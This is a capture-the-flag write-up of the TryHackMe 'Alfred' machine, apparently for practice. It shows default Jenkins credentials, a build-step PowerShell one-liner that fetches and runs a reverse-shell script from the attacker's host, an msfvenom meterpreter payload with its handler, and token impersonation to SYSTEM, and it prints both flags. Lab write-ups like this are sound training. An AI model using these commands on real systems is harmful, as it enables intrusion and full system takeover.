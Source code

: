 # Alfred Writeup
#pentest/tryhackme

We start with the usual nmap to see which services are running.

```shell
nmap -sV 10.10.167.25
...
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Seems like we are running Jenkins on port 8080 and their username/password has never been modified!
After logging in with **admin/admin** we can modify our build steps to execute the commands we want.

**Go to:**
project -> configure -> build -> execute windows batch command

Cool, so now what we want to do is create a reverse shell:
1. Download [nishang/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
	1. This is the script that will do this for us.
2. Start a python server on our machine so jenkins can download the script from us
	1. `python3 -m http.server`
3. Start a netcat listener that will receive a request from the windows machine
	1. `nc -nlvp 7777`
4. Now we have to instruct jenkins to download the script from us

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://<our-ip>:<our-python-server-port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <our-ip> -Port <our-netcat-port>
```

And we have a reverse shell! Let’s get the user flag!

```
PS1 > whoami
alfred/bruce
PS1 > cd C:\Users\bruce\Desktop
PS1 > more user.txt
79007a09481963edf2e1321abd9ae2a0
```

Let’s escalate our privileges:

1. Use msfvenom to create the a windows meterpreter reverse shell using the following payload
	1. `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`
2. Let’s make our windows machine download it using our cool jenkins build step
	1. `powershell “(New-Object System.Net.WebClient).Downloadfile(‘http://<ip>:8000/shell-name.exe’,’shell-name.exe’)”`
3. Open metasploit and configure the handler
	
```shell
$ msfconsole
msf5> use exploit/multi/handler 
msf5> set PAYLOAD windows/meterpreter/reverse_tcp 
msf5> set LHOST 10.2.13.100 
msf5> set LPORT 7777
msf5> run
```

After everything is set we execute our downloaded shell in our netcat listener.
 `Start-Process "shell-name.exe"`

And get the reverse handler on metasploit
`meterpreter>`

**Now that we have initial access, let’s use token impersonation to gain system access.**

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by **LSASS.exe**( think of this as an authentication process).

**This access token consists of:**
* user SIDs(security identifier)
* group SIDs
* privileges
* amongst other things. More detailed information can be found  [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens) .

**There are two types of access tokens:**
* primary access tokens: those associated with a user account that are generated on log on
* impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

**For an impersonation token, there are different levels:**
* SecurityAnonymous: current user/client cannot impersonate another user/client
* SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
* SecurityImpersonation: current user/client can impersonate the client’s security context on the local system
* SecurityDelegation: current user/client can impersonate the client’s security context on a remote system

where the security context is a data structure that contains users’ relevant security information.

**The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:**
* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

There’s more reading  [here](https://www.exploit-db.com/papers/42556) .

**Let’s see our user privileges**

```shell
PS C:\Program Files (x86)\Jenkins\workspace\project> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
...
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
...
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
...
```


We can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let’s use the incognito module that will allow us to exploit this vulnerability. 
```shell
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
...

meterpreter > impersonate_token "BUILTIN\Administrators"
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
``` 

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the **services.exe** process. First use the **ps** command to view processes and find the PID of the services.exe process. Migrate to this process using the command **migrate PID-OF-PROCESS**

```shell
meterpreter > ps
...
668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
...

meterpreter > migrate 668
[*] Migrating from 2472 to 668...
[*] Migration completed successfully.
meterpreter > cd C:\Windows\System32\config
meterpreter > cat root.txt
dff0f748678f280250f25a45b8046b4a
```
